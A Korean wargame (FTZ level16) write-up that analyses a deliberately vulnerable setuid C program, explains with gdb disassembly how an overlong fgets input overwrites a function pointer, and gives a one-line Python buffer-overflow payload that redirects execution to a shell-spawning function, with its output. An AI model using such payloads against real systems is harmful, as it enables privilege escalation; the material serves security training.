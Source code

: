 # **FTZ LEVEL16**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
 
void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```
`call()` 을 호출하는 부분에 `shell()` 의 주소를 넣으면 쉘을 획득활 수 있다.

gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x08048518 <main+0>:	push   ebp
0x08048519 <main+1>:	mov    ebp,esp
0x0804851b <main+3>:	sub    esp,0x38
0x0804851e <main+6>:	mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:	sub    esp,0x4
0x08048528 <main+16>:	push   ds:0x80496e8
0x0804852e <main+22>:	push   0x30
0x08048530 <main+24>:	lea    eax,[ebp-56]
0x08048533 <main+27>:	push   eax
0x08048534 <main+28>:	call   0x8048384 <fgets>
0x08048539 <main+33>:	add    esp,0x10
0x0804853c <main+36>:	mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:	call   eax
0x08048541 <main+41>:	leave  
0x08048542 <main+42>:	ret    
0x08048543 <main+43>:	nop    
0x08048544 <main+44>:	nop    
0x08048545 <main+45>:	nop    
0x08048546 <main+46>:	nop    
0x08048547 <main+47>:	nop    
0x08048548 <main+48>:	nop    
0x08048549 <main+49>:	nop    
0x0804854a <main+50>:	nop    
0x0804854b <main+51>:	nop    
0x0804854c <main+52>:	nop    
0x0804854d <main+53>:	nop    
0x0804854e <main+54>:	nop    
0x0804854f <main+55>:	nop    
End of assembler dump.
```
`buf` 의 시작주소는 `ebp-56` 이고, `main+6` 부분에서 `printit()` 의 주소를 `ebp-16` 부분에 넣는다.  
`main+36` 에서 `ebp-16` 부분에 있는 값을 `eax` 에 넣고 호출한다.  
 따라서 `ebp-16` 부분에 `shell()` 의 시작 주소를 넣고 익스플로잇 하겠다. 

 `shell()` 의 시작주소는
 ```
(gdb) disas shell
Dump of assembler code for function shell:
0x080484d0 <shell+0>:	push   ebp
0x080484d1 <shell+1>:	mov    ebp,esp
0x080484d3 <shell+3>:	sub    esp,0x8
0x080484d6 <shell+6>:	sub    esp,0x8
0x080484d9 <shell+9>:	push   0xc19
0x080484de <shell+14>:	push   0xc19
0x080484e3 <shell+19>:	call   0x80483b4 <setreuid>
0x080484e8 <shell+24>:	add    esp,0x10
0x080484eb <shell+27>:	sub    esp,0xc
0x080484ee <shell+30>:	push   0x80485b8
0x080484f3 <shell+35>:	call   0x8048364 <system>
0x080484f8 <shell+40>:	add    esp,0x10
0x080484fb <shell+43>:	leave  
0x080484fc <shell+44>:	ret    
0x080484fd <shell+45>:	lea    esi,[esi]
End of assembler dump.
 ```
 `0x080484d0` 이다.
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[20] | dummy[20] | &(printit()) | dummy[12] | sfp | ret
```

>Payload
```
(python -c "print 'A'*40+'\xd0\x84\x04\x08'";cat) | ./attackme 
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level16@ftz level16]$ (python -c "print 'A'*40+'\xd0\x84\x04\x08'";cat) | ./attackme 
my-pass

Level17 Password is "~~~~~~~~~".
```
